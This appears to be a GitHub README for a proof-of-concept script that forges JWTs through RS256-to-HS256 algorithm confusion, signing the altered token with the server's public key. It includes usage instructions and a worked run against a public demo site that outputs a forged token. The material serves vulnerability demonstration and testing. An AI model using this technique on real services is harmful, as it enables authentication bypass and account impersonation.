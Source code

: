 # JWTconverter
Convert JWT tokens from RS256 to HS256


## Details
For a given RS256 signed JWT token, this script changes the algorithm from RS256 to HS256 and signs the altered token with the public key (that you provide). It is only used as a Proof of Concept do demonstrate a vulnerability, and thus does not change the payload.


## Download via Git
Run this command to clone from Git:
```git clone https://github.com/Logeirs/JWTconverter.git```


## Usage
```
JWTconverter.py {JWT token} {Public key file}
```


## Example
Example using the following application: http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php
```
>JWTconverter.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.XlgqI4zNlEsjzGBslj-Dee5C2_WLpDSOVdjFXR4FO4TOx4RMth9mGPdIIeTQZbFyiVoQ9jkX0O3czWTr52y8qB7iJOqDKzwBoi1NPD_xoihFKHrnLxOmR1yLyjXwzlIHURRZ7f_DpPuwqnOYRbjSen4cMVBz0UhgGYe4DNcSjxNmaV2Ksfwd2exTC61g22szQIa_ISyJYU0OxIN2_Ad_XsPpmc_AQ0QcxyYCDcCEkByWUD9adCIBWlrdQhsjXASfEuP5olmvI4Znn2L33fSpAOW1G5DqozTQxyctOXvNuNm3ql9DvE5Wqntr5Z-vs6aQj32uKrVMSutayxuExVH_lQ pubkey.pem


[+] data: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0
[+] HMAC: cd44e3c58199ab7d0eafec318f01cfefa1ecba689761e12db1bc9412571c47b2
[+] signature: zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
-----------
[+] new JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
```
